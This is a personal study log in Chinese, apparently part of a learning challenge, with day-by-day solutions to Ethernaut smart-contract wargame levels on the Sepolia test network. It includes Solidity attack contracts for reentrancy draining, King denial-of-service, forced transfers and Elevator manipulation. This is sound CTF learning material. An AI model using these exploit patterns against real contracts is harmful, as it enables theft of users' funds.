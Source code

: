 ```yaml
---
timezone: Asia/Shanghai
---
```

---

# yulai

1. 自我介绍
程序员一枚，喜欢编码和区块链
2. 你认为你会完成本次残酷学习吗？
70%概率吧
## Notes

<!-- Content_START -->

### 2024.08.29
#### Ethernaut - Hello Ethernaut
1. eth sepolia rpc: https://eth-sepolia.public.blastapi.io
2. 现在测试网水龙头变得麻烦了，要求主网要有余额。
水龙头：https://sepolia-faucet.pk910.de/#/
3. 测试1部署合约：0x480Ee5663698aA065B3c971722eda3e835ce024d
4. 根据教程一步步执行，最后通过 authenticate 方法提交答案
#### Ethernaut - Fallback
合约地址：0x086Bb5B1F286D04cB7e8D228c736b377D6E1d4D3
调用方法时发送eth: await contract.contribute({value: '100'})
直接发送eth: await contract.send('100')
##### 解题思路
1. 调用 contribute 方法时发送eth
```
await contract.contribute({value: '100'})
```
2. 直接发送 eth
```
await contract.send('100')
```
3. 调用 withdraw 方法
```
await contract.withdraw()
```
#### Ethernaut - Fallout
##### 解题思路
构造器名称写错，导致构造器方法变成了普通方法，可以被调用
1. 调用 Fal1out 方法
```
await contract.Fal1out()
```
#### Ethernaut - Telephone
学习如何在 Remix 中部署合约和调用合约
合约地址：0xB09803A34a73B056D3B39e3a8bf577DB075E70eC



### 2024.08.30
#### Ethernaut - Telephone
在 Remix 上部署一个合约，调用 Telephone 合约的 changeOwner方法
1. 需要学习下如何在Remix上部署和调用合约

#### Ethernaut - Token
使用溢出攻击。需要让另一个账号来给我们转账。
合约transfer中 require 有问题，会受到溢出攻击。
合约地址：0x7e74e1b56aE3F378866a0A71921Aea1f4EAe0343
1. 可以使用 remix 编译这个合约，然后在remix部署页面通过 atAddress 可以定义到这个合约
2. 使用另一个账号给开发账号转账 1个币

### 2024.08.31
#### Ethernaut - Delegation
合约地址：0xd969Ee8f7634454a2Deb8dF8C28B0D113D536f48
1. 有些奇怪。在remix上编译这个合约，通过地址识别实例发现是Delegate合约，而不是Delegation合约。Deletegate合约可以直接执行 pwn 方法完成owner转换。
2. 猜测remix 无法准确识别两个合约在一个文件的情况，加上两个合约结构类似，因此可以正常调用

#### Ethernaut - Force
没有合约代码，有点不太懂
合约地址：0x00a5b5d5717192AE7e982Ec80ea006f188ee70E3
1. 这道题的目的是学习如何强制往一个空合约中转账，一般转账都要求目标合约有实现相关方法或者fallback, receive函数
2. 可以通过合约的 selfdestruct 方法实现强制转账
3. 还可以通过挖矿奖励或者在合约部署之前给它转账的方式，实现强制转账
4. 解题思路就是部署一个新合约，给它转点币，再调用它的自毁方法把币强制转给目标合约

### 2024.09.01
#### Ethernaut - Vault
合约地址：0x723d210fD10CB30e4C26e3E74C175d035B41383C </br>
学习如何访问合约中的 private 变量。可以通过 web3.js的方法查询
```
await web3.eth.getStorageAt(instance, 1)
```
获得值：0x412076657279207374726f6e67207365637265742070617373776f7264203a29 <br>
解析出来是：A very strong secret password :) <br>
值得一提的另一个解题方法是，直接反编译创建合约的字节码，也发现了： `'A very strong secret password :)'`，只是一开始以为是没用的注释，就没使用:)

#### Ethernaut - King
合约地址：0x7237a19220B624692cDC7b102204C36Cfc23B53e
本题学习如何构造一个不接收转账的合约。
1. 一开始正常往合约转了0.002eth，提交题目。发现被重置了king
2. 题目中会用到 king的transfer功能，因此可以构造一个合约来给目标合约转账，新合约会成为king。但是由于新合约无法接收转账，因此提交题目时不会出现1种的重置
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract AttackKing {

    constructor(address king) payable {
        (bool success, ) = king.call{value: 0.002 ether}("");
        require(success, "call false");
    }

}
```

### 2024.09.02
#### Ethernaut - Re-entrancy
合约地址：0x84841B92767187f235B67690Db1179f7E6307faC
可以对 withdraw 使用重入攻击
需要特别注意，重入攻击不能放在 constructor 中。因为在创建合约时，fallback/receive函数内容可能还没有被初始化，会是空的
```
contract AttackReentracy {
    address payable public  _reentracy;
    address payable public _owner;

    constructor( address payable reentracy, address payable owner) public payable {
        _reentracy = reentracy;
        _owner = owner;
    }

    function withdraw() external payable {
        // 1. 往目标合约捐款
        Reentrance(_reentracy).donate{value: 0.001 ether}(address(this));
        // 2. 调用目标合约取款
        Reentrance(_reentracy).withdraw(1000000000000000);
        // 3. 给owner转账
        payable(_owner).transfer(address(this).balance);
    }

    fallback() external payable { 
        Reentrance(_reentracy).withdraw(1000000000000000);
    }

    receive() external payable {
        Reentrance(_reentracy).withdraw(1000000000000000);
    }
}
```
### 2024.09.03
#### Ethernaut - Elevator
合约地址：0x5cE212358a2D77fcd4cE431a33E5eDe2C3453C4d
题目要求构造一个合约，并且在一次交易的两次调用中，返回不同的值
```
contract BuildingImpl is Building {
    uint public top = 0;
    
    function isLastFloor(uint256) external returns (bool) {
        top++;
        return top == 2;
    }

    // 0x5cE212358a2D77fcd4cE431a33E5eDe2C3453C4d
    function attack(address elevator) external   {
        Elevator elevatorContract = Elevator(elevator);
        elevatorContract.goTo(1);
    }
}
```

<!-- Content_END -->
